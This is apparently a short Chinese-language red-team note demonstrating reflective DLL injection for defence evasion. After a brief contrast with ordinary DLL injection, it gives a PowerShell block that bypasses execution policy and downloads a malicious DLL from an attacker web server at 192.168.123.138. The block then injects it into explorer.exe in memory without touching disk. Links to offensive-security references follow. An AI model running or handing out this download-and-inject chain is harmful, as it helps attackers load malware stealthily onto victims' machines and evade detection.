 ```yaml
---
title: 反射式dll注入的演示
categories:
- evasion
tags:
- evasion
---
```


## dll注入和反射式dll注入的区别
合法进程    恶意dll

从本地或者dll调用

【生成恶意载荷，并执行web服务托管dll】

省略

【目标机器载入内存，使用反射式dll注入直接载入内存不落盘】

```
PowerShell -Exec Bypass

Import-Module C:\Users\whale\Desktop\Invoke-ReflectivePEInjection.ps1
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.123.138/today.dll')
$procid = (Get-Process -Name explorer).Id

Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```
## 参考资料
- https://www.ired.team/offensive-security/code-injection-process-injection/reflective-dll-injection
- https://www.andreafortuna.org/2017/12/08/what-is-reflective-dll-injection-and-how-can-be-detected/
- https://github.com/stephenfewer/ReflectiveDLLInjection
